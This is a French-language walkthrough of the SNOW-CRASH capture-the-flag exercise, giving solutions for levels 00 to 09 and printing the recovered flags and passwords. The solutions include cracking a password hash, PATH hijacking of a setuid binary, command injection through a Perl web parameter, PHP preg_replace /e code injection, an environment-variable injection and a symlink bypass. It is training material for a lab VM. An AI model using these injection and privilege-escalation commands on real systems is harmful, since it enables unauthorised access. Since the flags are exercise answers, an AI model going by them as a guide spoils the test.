

# SNOW-CRASH
## Capture the flags
***

### Concept 
Un project secu qui va nous faire naviger de niveau en niveau pour nous faire trouver les flags necessaire au passage de ceux-ci.
Pour ce project il est necessaire de telecharger un .iso dans lequel tu seras mis a l'epreuve.

## Level 00:
Tu devras trouver les fichiers accessible au user : ```flag00```  
Pour cela : ```find / -user flag00 2> /dev/null```   
Tu y trouvera le mot de passe crypte : ```cdiiddwpgswtgt```

Une fois decrypte ( https://cachesleuth.com/multidecoder/), 
cela donne  ```nottoohardhere```


## Level 01:
Tu dois faire :
```/etc/passwd```
cela retourne : 
```flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash```

Pour decoder le code : ```42hDRfypTqqnw```
Tu dois mettre ce code dans John the ripper (logiciel de decryptage) ce qui te donnera : ```abcdefg```

## Level 02:


Il y a un fichier level02.pcap

Ces fichiers sont a ouvrir avec wireshark, ici le fichier une fois ouvert on peut utiliser l'option ```FOLLOW--> TCP Stream``` et on obtient un mot de passe partiel : 


si on regarde les transferts qui correspondent au ```.``` on peut voir que ca corresponds au transfere d'un packet de 1 byte : 7f 


en ascii 7f correspond a DEL

le mot de passe est donc : 
```ft_waNDReL0L```

## Level 03:

On arrive directement sur un folder avec un executable ```level03```

avec ```ltrace``` on peut voir cette ligne : 
```system("/usr/bin/env echo Exploit me"Exploit me```
qui nous indique un appel systeme d'echo.
On va donc faire un echo exploit en creant un fichier ```echo``` dans lequel on va mettre le path de getflag.  
Avec ```export``` on va rajouter le chemin d'```echo``` a PATH (au debut) et relancer le binaire. 

Dans ```/tmp```  
 ```vim echo```
```echo
/bin/getflag
```
```chmod + x```
  ```export PATH=/tmp:$PATH```

puis ```./level03 ```     
:)

## Level  04:

On arrive sur un folder avec un fichier perl ```level04.pl```
  Apres ouverture on voit que ce fichier peut etre execute sur le port :    
```localhost:4747``` et que le programme va print le premiere argument donne a la variable x telque :   
 ```
 level04@SnowCrash:~$curl"http://localhost:4747/level04.pl?x=whoami"
 whoami   
 level04@SnowCrash:~$curl "http://localhost:4747/level04.pl?x=$(whoami)   
 level04
 ```

L'objectif est de contourner ca pour executer getflag dans /bin/getflag telque :   
```level04@SnowCrash:~$ curl  "http://localhost:4747/level04.pl?x=\$(/bin/getflag)"```

## Level05:

Ici pas de fichier.
Petit retour a ```find / -user flag05 2> /dev/null```    
 Ici un fichier qui nous indique que regulierement les scripts dans ```/opt/openarenaserver/```  puis les supprimes.   
 Donc on creer un petit script qui avec ```/bin/getflag > /tmp/reslut.txt``` (pour stocker le resultat de l'execution et on attend que l'ordinateur lance autoatiquement le script.) (viuaaale9huek52boumoomioc)

 ## Level06:

 Dans le code fournit dans level06.php on remarque  une expression reguliere qui utilise /e qui signifie all.   
 Cette expression est deprecated car on peut y faire des injections de code.   
 C'est ce qu'on va faire.  
 Pour cela on doit utiliser l'expression reguliere qui utilise /e  donc notre fichier doit contenir ```[x {commmand here}]```
https://wiki.php.net/rfc/remove_preg_replace_eval_modifier
```echo '[x {${`/bin/bash -c "/bin/getflag"`}}]' > /tmp/exploit.txt```

wiok45aaoguiboiki2tuin6ub

## Level07:

https://dogbolt.org/?id=c0805f22-ef97-46b0-83aa-91f95bdac7f7#Ghidra=190
on passe l'executable dans un decompileur en ligne ci dessus
On remarque ceci : 
```
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

```
la ligne qui nous interesse c'est ```getenv("LOGNAME")```

On fait un injection de code grace a cette env telque : 
``` export LOGNAME='$(/bin/getflag) > /tmp/key.txt'```
et on va regarder tout simplement dans le fichier notre key : fiumuikeil55xe9cu4dood66h

## Level08:

On passe le binaire dans un decompilateur et on vois ceci d'interessant :    
```
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  int fd;
  int rc;
  char buf [1024];
  undefined local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc == 1) {
    printf("%s [file to read]\n",*argv);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  pcVar1 = strstr(argv[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  __fd = open(argv[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",argv[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  sVar2 = write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return sVar2;
}
```

On remarque 2 choses, on doit lire un fichier qui ne doit pas contenir ```token```
Ici le fichier token a seulement les droits de lecture et de d'ecriture par le owner.  
Mais un moyen assez facile de changer cela est de faire un lien symbolique telque :   
```ln -s /home/user/level08/token /tmp/test.txt```
Maintenant on poura executer le binaire avec notre fichier ```test.txt``` (qui pointe vers token) 

quif5eloekouj29ke0vouxean

don't forget to ```su flag08 ```

25749xKZ8L7DkSCwJkT9dyv6f


## Level09:
Apres decompilation du binaire on remarque une boucle interessante : 
```
while (true)
{
  var_120 = (var_120 + 1);
  int32_t ecx_1 = 0xffffffff;
  int32_t edi_1 = argv[1];
  while (ecx_1 != 0)
    {
    bool cond:0_1 = 0 != *edi_1;
    edi_1 = (edi_1 + 1);
    ecx_1 = (ecx_1 - 1);
    if ((!cond:0_1))
      {
        break;
      }
    }
  if (var_120 >= ((!ecx_1) - 1))
  {
    break;
  }
  putchar((*(var_120 + argv[1]) + var_120));
}
```

c'est le traitement de l'argument donne lors de l'exec, qui va incrementer chaque caractere de sa position, Exemple :    
```
./level09 aaaaa
abcde
```
Lors de la lecture du fichier ```token``` on voit le resultat du password a travers cette fonction et nous devons retrouver le password original. L'operation n'est pas complique et peut etre fais a la main (moi) ou avec une fonction (merci monsieur enzo pour celle-ci) :    

```
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
int main(int argc, char **argv)
{
    if (argc != 2)
        return 0;
    int fd = open(argv[1], O_RDONLY);
    char buff[4096];
    int ret = read(fd, buff, 4096);
    int log = open("output", O_APPEND);
    for (int i = 0; i < ret; i++)
    {
        char c = buff[i];
        c -= i;
        write(1,&c,1);
    }
}
```
f3iji1ju5yuevaus41q1afiuq

s5cAJpM8ev6XHw998pRWG728z


